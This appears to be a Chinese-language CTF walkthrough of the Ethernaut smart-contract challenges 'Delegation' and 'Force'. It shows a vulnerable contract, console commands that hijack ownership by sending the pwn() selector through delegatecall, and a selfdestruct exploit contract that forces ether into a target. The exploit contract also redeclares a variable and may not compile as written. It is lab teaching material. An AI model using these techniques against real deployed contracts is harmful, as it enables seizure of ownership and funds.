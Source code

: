 ??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    contract Delegate {

        address public owner;

        constructor(address _owner) {
            owner = _owner;
        }

        function pwn() public {
            owner = msg.sender;
        }
    }

    contract Delegation {

        address public owner;
        Delegate delegate;

        constructor(address _delegateAddress) {
            delegate = Delegate(_delegateAddress);
            owner = msg.sender;
        }

        fallback() external {
            (bool result,) = address(delegate).delegatecall(msg.data);
            if (result) {
                this;
            }
        }
    }
    ```

这道题的考点是delegatecall，这个函数接收的是经过`#!solidity abi.encodeWithSignature`后的函数，查询文档可知只要取函数名sha3后的前4个字节即可。

```js 
> web3.utils.sha3("pwn()")
'0xdd365b8b15d5d78ec041b851b68c8b985bee78bee0b87c4acf261024d8beabab'
> contract.sendTransaction({data: "0xdd365b8b"})
```

## Force

虽然无法向合约转账，但是在合约自毁时，可以强制奖余额转到指定地址，因此只需先创建一个合约，向其转账后，再自毁合约即可。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Exploit {
    constructor() public payable {}  // 初始要接收 value 来创建合约
    function exp(address challenge) public {
        // 需要先强制转换为 payable
        address payable challenge = payable(address(challenge));
        selfdestruct(challenge);
    }
}
```
